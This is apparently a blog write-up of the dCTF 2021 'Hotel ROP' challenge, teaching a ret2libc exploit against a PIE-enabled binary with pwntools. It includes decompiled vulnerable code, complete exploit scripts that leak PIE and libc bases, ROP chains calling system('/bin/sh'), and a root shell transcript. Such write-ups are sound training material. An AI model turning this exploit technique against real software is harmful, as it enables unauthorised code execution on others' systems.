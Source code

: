 ```yaml
---
title: "dCTF 2021 - Hotel ROP"
date: 2021-05-24T20:22:21-05:00
draft: false
subtitle: "Returning 2 LIBC in a PIE enabled binary"
tags: ["pie", "aslr", "easy", "elf", "libc"]
author: "<a href='https://caprinux.github.io'>elma</a>"
---
```

Today, we will be looking at a pwn challenge from **dCTF 2021** which features ret2libc exploitation with a little twist of a `PIE-enabled` binary. The following PwnTools features will be introduced here:
- **[pwnlib.rop](https://docs.pwntools.com/en/stable/rop/rop.html)** to help us craft ROP chains
- **[pwnlib.elf](https://docs.pwntools.com/en/stable/elf.html)** to make finding addresses quick and easy
- and many more little modules from `pwntools` to help us pwn faster ~

<br>

## Challenge Description
---
> They say programmers' dream is California. And because they need somewhere to stay, we've built a hotel!
>
> Attachments: [hotel_rop](/content/files/hotel_rop)

<br>

## Getting Started
---

For this challenge, we are provided with a binary and nothing else.

We quickly check the security features of the binary with `pwn checksec hotel_rop` which returns

```
[*] '/media/sf_dabian/Challenges/dctf/pwn/hotel_rop'

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

As shown, `PIE` and `NX` is enabled. Let's run the binary and check out what we are dealing with

```
➜ ./hotel_rop
Welcome to Hotel ROP, on main street 0x55e4cd29636d
You come here often?
test
I think you should come here more often.
```

As you can see, we are given a leak and an input. Let's decompile and look at what's going on behind the scenes.

```c
int main()
{
  alarm(0xAu);
  printf("Welcome to Hotel ROP, on main street %p\n", main);
  vuln();
  return 0;
}

int vuln()
{
  int result;
  char s[28];
  int v2;

  puts("You come here often?");
  fgets(s, 256, stdin);
  if ( v2 )
    result = puts("I think you should come here more often.");
  else
    result = puts("Oh! You are already a regular visitor!");
  return result;
}

```

As you can see, we have a leak which points to `main()`, and we have a **buffer overflow** in `vuln()` as we are given **256 bytes of input** into a variable that holds **28 bytes of data**.

With this, it becomes rather apparent that we have to do a `ret2libc` in order to spawn a shell and win. However, since this binary is `PIE` enabled, we have to first calculate the `PIE` base.

<br>

## Exploitation
---

### Stage 1: Calculate PIE base

Since we know that our leak is the address of `main()`, we can easily calculate our offset with `elf.sym.main` and set it as the base_address by saving it to `elf.address`.

```py
from pwn import *

context.binary = elf = ELF('hotel_rop')
p = process('./hotel_rop')
libc = elf.libc # set libc

#: RECEIVE LEAK CALCULATE PIE BASE
p.recvuntil(b'main street ')
mainleak = int(p.recvline().rstrip(b'\n'), 16)
# use elf to save find main address and save PIE base into elf.address
elf.address = mainleak - elf.sym.main

log.info(f'pie base @ {hex(elf.address)}')
```

OUTPUT:

```
[x] Starting local process './hotel_rop'
[+] Starting local process './hotel_rop': pid 4990
[*] pie base @ 0x55d2a5162000
```

Running the script, we see that we successfully found PIE base.

### Stage 2: Leak and calculate LIBC base

Since LIBC is ASLR-enabled, we also have to calculate the LIBC base. This means we will need a LIBC leak and we will do that in our `rop.chain()`.

We will leak an address from the `GOT` which contains libc addresses, and from there, calculate our libc base address.

Let's write our `rop.chain()`, but without having to find any gadgets or addresses ourselves!!

```py



#: LEAK PUTS GOT  

# create rop chain
rop1 = ROP(elf)
rop1.puts(elf.got.puts)
rop1.main()

# send rop chain with auto 40 bytes cyclic padding
p.sendline(flat({ 40: rop1.chain()}))
p.recvuntil(b'often.\n')

#: CALCULATE LIBC BASE FIND BINSH
putsgotleak = u64(p.recvline().strip(b'\n').ljust(8, b'\x00'))
libc.address = putsgotleak - libc.sym.puts

log.success(f'libc base @ {hex(libc.address)}')


```

OUTPUT:

```
[x] Starting local process './hotel_rop'
[+] Starting local process './hotel_rop': pid 4996

[*] pie base @ 0x55df8c8ff000

[*] 0x0000:   0x55df8c90040b pop rdi; ret
    0x0008:   0x55df8c903018 [arg0] rdi = got.puts
    0x0010:   0x55df8c900030 puts
    0x0018:   0x55df8c90036d main()

[+] libc base @ 0x7f72197ca000
```

Success! Let's proceed with the last part of our exploit.

### Stage 3: Return 2 LIBC System!

Now we have all the pieces we need to return to libc. This is super simple with pwntools as well, we simply need to look for our '/bin/sh' string with `libc.search()` and call `rop.system(binsh)`.

```py
# locates binsh string from libc
binsh = next(libc.search(b'/bin/sh'))

#: POP SHELL
rop2 = ROP([libc, elf]) 
rop2.system(binsh)
p.sendline(flat({40: rop2.chain()}))
log.success(f'Enjoy your shell!')

p.clean()
p.interactive() # win!
```

OUTPUT:

```
[*] 0x0000:   0x7f337c437796 pop rdi; ret
    0x0008:   0x7f337c59b156 [arg0] rdi = 139859106312534
    0x0010:   0x7f337c459e50 system
[+] Enjoy your shell!
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)

$ whoami
root
```

With that, we successfully popped a shell and pwned the binary!

---

#### Clean Script

```py
from pwn import *

p = process('./hotel_rop')
context.binary = elf = ELF('hotel_rop')
libc = elf.libc

#: RECEIVE LEAK CALCULATE PIE BASE
p.recvuntil(b'main street ')
mainleak = int(p.recvline().rstrip(b'\n'), 16)
elf.address = mainleak - elf.sym.main


#: LEAK PUTS GOT  
rop1 = ROP(elf)
rop1.puts(elf.got.puts)
rop1.main()
p.sendline(flat({ 40: rop1.chain()}))
p.recvuntil(b'often.\n')

#: CALCULATE LIBC BASE FIND BINSH
putsgotleak = u64(p.recvline().strip(b'\n').ljust(8, b'\x00'))
libc.address = putsgotleak - libc.sym.puts
binsh = next(libc.search(b'/bin/sh'))

#: POP SHELL
rop2 = ROP([libc, elf])
rop2.system(binsh)
p.sendline(flat({40: rop2.chain()}))
log.success(f'Enjoy your shell!')

p.clean()
p.interactive()
```
